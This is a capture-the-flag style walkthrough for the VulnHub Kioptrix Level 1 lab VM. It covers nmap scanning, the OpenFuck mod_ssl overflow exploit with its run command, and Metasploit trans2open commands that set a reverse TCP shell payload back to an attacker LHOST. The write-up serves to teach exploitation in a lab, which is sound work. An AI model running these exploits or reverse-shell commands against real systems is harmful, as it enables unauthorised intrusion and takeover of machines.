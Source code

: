 # writeup kioptrix level 1
  This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.
  
# Download vm-machine from vulnhub website:
link: https://www.vulnhub.com/entry/kioptrix-level-1-1,22/ .

# Solution:
  [+] At the beginning, we need to perform ping sweep to discover network devices that alive. <br>
    command: 
    <code>sudo nmap -sn 192.168.1.0/24 </code> <br><br>
   <img src="https://github.com/BassamMaged/vulnhub_write-ups/blob/master/kioptrix_level_1/pics/ping_sweep.png"/>
   <br><br>
   
  [+] After finding target IP, we need to perform port scan and banner graabbing over TCP through nmap. <br>
    command: <code>sudo nmap -sS -sV -O 192.168.1.104 -p-</code> <br><br>
    <img src="https://github.com/BassamMaged/vulnhub_write-ups/blob/master/kioptrix_level_1/pics/nmap_portscan_banner_grabbing.png"/>
    <br><br>
    
  [+] Now, we can performing vulnerability assessment through doing search about vulnerabilities that can be found according to protocols versions.  <br>
    that depend on your search skill :D. <br>
    i found some vulneravilities:- <br>
     -- [1] buffer-over Apache mod_ssl < 2.8.7 OpenSSL <br>
     -- [1] download openfuck script from: <br>
     -- [1] link: <a href="https://www.exploit-db.com/exploits/764/">exploit</a> <br>
     -- [1] or here: <a href="https://github.com/BassamMaged/vulnhub_write-ups/blob/master/kioptrix_level_1/additional_content/openfuck.c"> Github </a> <br>
     -- [1] or modified script: <a href="https://github.com/BassamMaged/vulnhub_write-ups/blob/master/kioptrix_level_1/additional_content/openfuck_modified.c ">Modifeid script:Github</a><br>
     -- [1] you can download the exploit script to using it.<br>
     -- [1] command: <code>./OpenFuck 0x6b 192.168.1.106</code> <br>
     <pre>
     -- [1] note: if any problem occur during running of the script, you will find some solution here. <br>
     -- [1] link: <a href="https://github.com/BassamMaged/vulnhub_write-ups/blob/master/kioptrix_level_1/additional_content/install_openfuck.md "> follow this instructions</a> <br>
     </pre>
      -- [1] POC: <br>
     <img src="https://github.com/BassamMaged/vulnhub_write-ups/blob/master/kioptrix_level_1/pics/overflow.png"/>
    <br><br>
      -- [2] samba: <br>
      -- [2] enumeration commands: <br>
          <code> enum4linux 192.168.1.104 </code> <br>
      -- [2] detected samba version: <br>
          <code> msfconsole </code> <br>
          <code> msf > search smb_version </code> <br>
          <code> msf > use auxiliary/scanner/smb/smb_version </code> <br>
          <code> msf auxiliary(scanner/smb/smb_version) > set RHOSTS 192.168.1.104 </code> <br>
          <code> msf auxiliary(scanner/smb/smb_version) > exploit  </code> <br>
          <img src="https://github.com/BassamMaged/vulnhub_write-ups/blob/master/kioptrix_level_1/pics/samba_version.png"/>
      -- [2] samba 2.2.1a is vulnerable <br>
          command:
            <code> msf > search samba  </code> <br>
            <code> msf > use exploit/linux/samba/trans2open  </code> <br>
            <code> msf exploit(linux/samba/trans2open) > set RHOST 192.168.1.104 </code> <br>
            <code> msf exploit(linux/samba/trans2open) > set RPORT 139 </code> <br>
            <code> msf exploit(linux/samba/trans2open) > set payload generic/shell_reverse_tcp </code> <br>
            <code> msf exploit(linux/samba/trans2open) > set LHOST 192.168.1.105 </code> <br>
            <code> msf exploit(linux/samba/trans2open) > set LPORT 4444 </code> <br>
            <code> msf exploit(linux/samba/trans2open) > exploit </code> <br>
      -- [2] POC:
            <img src="https://github.com/BassamMaged/vulnhub_write-ups/blob/master/kioptrix_level_1/pics/samba_overflow.png"/>
      <pre>we are do the best to keep it up-to-date and adding more vulnerabilities if we found it at this machine.
      Best wishes,,</pre>
